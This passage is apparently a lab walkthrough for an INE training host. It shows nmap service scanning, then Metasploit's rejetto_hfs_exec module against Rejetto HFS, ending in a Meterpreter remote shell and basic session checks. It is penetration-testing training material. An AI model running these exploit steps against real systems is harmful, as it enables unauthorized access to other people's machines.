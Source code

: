 First, we need to scan the target to identify open ports and services running on the target machine:

```bash
nmap -sV demo.ine.local
```

- **Explanation**: This command uses Nmap to perform a version scan (`-sV`) on the target `demo.ine.local`. It helps identify what services are running, which could be vulnerable.

---

#### 2. Setting Up the Exploit

Next, we launch Metasploit to exploit the identified vulnerability.

Start Metasploit:

```bash
msfconsole
```

Search for the Rejetto exploit:

```bash
search rejetto
```

Use the identified exploit:

```bash
use exploit/windows/http/rejetto_hfs_exec
```

Display the options available for the exploit:

```bash
show options
```

Set the necessary options for the exploit:

```bash
set lhost eth1
set rhosts demo.ine.local
```

- **Explanation**: `lhost` is set to the local host IP (your attacking machine), and `rhosts` is set to the target IP (the machine being attacked).

---

#### 3. Gaining Meterpreter Session

Run the exploit to gain access:

```bash
run
```

Once the exploit is successful, we will have a Meterpreter session. Verify the session information:

```bash
sysinfo
getuid
```
